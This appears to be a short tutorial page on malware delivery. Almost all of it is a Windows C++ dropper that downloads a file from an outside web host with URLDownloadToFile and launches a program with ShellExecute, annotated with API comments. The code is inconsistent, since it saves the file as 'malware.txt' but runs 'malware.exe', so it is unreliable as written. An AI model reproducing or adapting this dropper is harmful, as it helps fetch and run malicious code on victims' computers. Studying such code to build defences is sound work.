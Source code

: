 We’ll provide some simple examples of malware delivery techniques. Note that these are simplified
examples and concepts; real-world malware often employs more sophisticated strategies and evasion
techniques

## Download and execute malware from a remote server:

A malware might be hosted on a remote server and a dropper program can be used to download and execute it:



```cpp
#include <windows.h>
#include <urlmon.h>
#pragma comment(lib, "urlmon.lib")
int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance,
                   LPSTR lpCmdLine, int nCmdShow)
{
    URLDownloadToFile(NULL, "https://auto-download-one.vercel.app/myfile.txt", "malware.txt", 0, NULL);

    // HRESULT URLDownloadToFile(
    //              LPUNKNOWN            pCaller,    Used if you want COM object identity (rare in normal code).
    //              LPCTSTR              szURL,      The URL of the file you want to download.
    //              LPCTSTR              szFileName, The full local path where you want the file saved. Must include both the path and filename.
    //   _Reserved_ DWORD                dwReserved,  Reserved. Always 0.
    //              LPBINDSTATUSCALLBACK lpfnCB       Optional callback function to track download progress. NULL if you don’t care about progress.
    // );

    ShellExecute(NULL, "open", "malware.exe", NULL, NULL, SW_SHOWNORMAL);

    //     HINSTANCE ShellExecuteA(
    //     HWND   hwnd,         // handle to parent window (can be NULL)
    //     LPCSTR lpOperation,  // action to perform: "open", "edit", "print", etc.
    //     LPCSTR lpFile,       // file name or program to execute
    //     LPCSTR lpParameters, // arguments if lpFile is an executable
    //     LPCSTR lpDirectory,  // default working directory (NULL = current)
    //     INT    nShowCmd      // how the window is shown (SW_SHOWNORMAL, hidden, etc.)
    // );

    return 0;
}
```